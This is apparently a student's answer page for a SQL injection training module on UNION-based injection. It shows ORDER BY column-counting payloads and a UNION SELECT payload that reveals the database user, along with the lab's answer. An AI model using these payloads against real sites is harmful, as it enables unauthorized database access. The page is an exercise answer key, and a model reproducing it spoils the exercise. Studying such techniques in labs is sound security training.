

# Section 12: Union Injection

Module: 17. SQL Injection Fundamentals

---

## Questions & Answers

### 1. Use a Union injection to get the result of 'user()'

Context:
- Tried `a' ORDER BY 4 -- ` got the result, but `a' ORDER BY 5 -- ` got message `Unknown column '5' in 'order clause'` => Confirmed 4 columns, injection `a' UNION SELECT 1, 2, 3, user() -- `:

**Answer:** `root@localhost`

---

[Back to Module Index](./README.md)
